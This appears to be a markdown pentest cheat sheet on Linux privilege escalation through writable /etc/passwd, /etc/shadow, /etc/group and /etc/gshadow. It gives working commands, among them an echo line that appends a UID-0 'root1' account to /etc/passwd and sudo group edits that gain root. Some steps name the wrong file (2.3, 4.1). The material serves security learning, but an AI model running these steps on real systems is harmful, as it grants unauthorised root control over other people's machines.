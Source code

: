 
 
##  **Default Permissions of Important Files in Linux**

#### Understanding file permissions is crucial for privilege escalation and security assessments. Below are the default permissions of critical system files in Linux:

the default permissions of critical system files in Linux:

| **File**       | **Default Permissions** | **Owner** | **Group** | **Purpose**                                     |
| -------------- | ----------------------- | --------- | --------- | ----------------------------------------------- |
| `/etc/passwd`  | `-rw-r--r-- (644)`      | `root`    | `root`    | Stores user account details (but not passwords) |
| `/etc/shadow`  | `-rw------- (600)`      | `root`    | `shadow`  | Stores hashed passwords (only root can access)  |
| `/etc/group`   | `-rw-r--r-- (644)`      | `root`    | `root`    | Stores group information                        |
| `/etc/gshadow` | `-rw------- (600)`      | `root`    | `shadow`  | Stores group passwords (if any)                 |
| `/etc/crontab` | `-rw-r--r-- (644)`      | `root`    | `root`    | System-wide cron jobs                           |
| `/etc/sudoers` | `-r--r----- (440)`      | `root`    | `root`    | Controls sudo access                            |
## Privilege Escalation via sensitive files

### 1. Privilege Escalation through **/etc/passwd**


**If we got write permission for other user on /etc/passwd  then we can create hash and add into it ** 

#####  1.1 check the permission of /etc/passwd
```bash
ls -lha /etc/passwd
```

![](Attachments/attachments/Pasted%20image%2020250221183500.png)

#####  1.2 generate password hash

```bash title:"generate password hash"
openssl passwd 1234
```

![](Attachments/attachments/Pasted%20image%2020250221172947.png)

##### 1.3 Edit The /etc/passwd  

read  the /etc/passwd file Then 
Clone the root user information edit root to root1 (we can also add only passwd hash for root user)
After that paste into /etc/passwd file and also add the created hash password.( you can use any editor but here I am going to use echo )
```bash
echo 'root1:$1$NBIvZax5$jv3IXEGcWtVxsfayNTv9B0:0:0:root:/root:/bin/bash' >> /etc/passwd 
```

![](Attachments/attachments/Pasted%20image%2020250221182917.png)

Apart of hash we can also use 0 (zero) for empty password 

##### 1.4 Then login with *root1* user using our password 
![](Attachments/attachments/Pasted%20image%2020250221192427.png)

---


### 2. Privilege Escalation through **/etc/shadow**

**If we got write permission for other user on /etc/shadow then we can create hash and add into it or we can go with crack the hash using password cracking tools  ** 

#####  2.1 check the permission of /etc/shadow
```bash
ls -lha /etc/shadow
```

![](Attachments/attachments/Pasted%20image%2020250221190658.png)


#####  2.2 generate password hash

```bash title:"generate password hash"
openssl passwd 1234
```

![](Attachments/attachments/Pasted%20image%2020250221172947.png)


##### 2.3 Edit The /etc/shadow file 
Replace root hash with our created hash 

```bash
vim /etc/passwd    #will open vim editor then replace root password hash
```

![](Attachments/attachments/Pasted%20image%2020250221192122.png)
![](Attachments/attachments/Pasted%20image%2020250221192032.png)

##### 2.4 Then login with root1 user using our password

```bash
su - root1
```

![](Attachments/attachments/Pasted%20image%2020250221192427.png)


---


### 3. Privilege Escalation through **/etc/group**

**if we got write permission for other user on /etc/group then we can add user into group**
#####  3.1 check the permission of /etc/group
```bash
ls -lha /etc/group
```

![](Attachments/Pasted%20image%2020250221193720.png)


##### 3.2 Edit the /etc/group
Add user into **wheel/sudo** group (if system is debian base then add into sudo group or if system is red-hat base then add into wheel group)
Here I am using debian base system so I'll add user into sudo group 

```bash
vim /etc/group
```

![](Attachments/Pasted%20image%2020250221200113.png)
![](Attachments/Pasted%20image%2020250221200237.png)


##### 3.3  Reset Connection
Firstly we should logout or reset the connection after that we can get root access

```bash
exit
```

![](Attachments/Pasted%20image%2020250221200849.png)

##### 3.4  login with normal user / get Shell
![](Attachments/Pasted%20image%2020250221201128.png)

then get root access using **sudo su** command
```bash
sudo su
```

![](Attachments/Pasted%20image%2020250221201305.png)

---

### 4. Privilege Escalation through **/etc/gshadow**
if we got write permission for other user on **/etc/gshadow** then we can add hash for **sudo/wheel** group to get root access

#####  4.1 check the permission of **/etc/gshadow**
```bash
ls -lha /etc/shadow
```

![](Attachments/Pasted%20image%2020250221204324.png)


#####  4.2 generate password hash

```bash title:"generate password hash"
openssl passwd 1234
```

![](Attachments/attachments/Pasted%20image%2020250221172947.png)


#####  4.3 edit the /etc/gshadow
edit the **/etc/gshadow** and add generated has for** **sudo/wheel** group. ( according to os *debian = sudo*  or *red-hat = wheel *)

```bash
vim /etc/gshadow
```

![](Attachments/Pasted%20image%2020250221205551.png)
![](Attachments/Pasted%20image%2020250221205227.png)

##### 4.4  login with **sudo / wheel** group 

```bash
sg sudo #acording to os sudo / wheel
```

After that we will get all access 
![](Attachments/Pasted%20image%2020250221210301.png)

Then run **sudo su** command 
```bash
sudo su 
```

![](Attachments/Pasted%20image%2020250221210441.png)
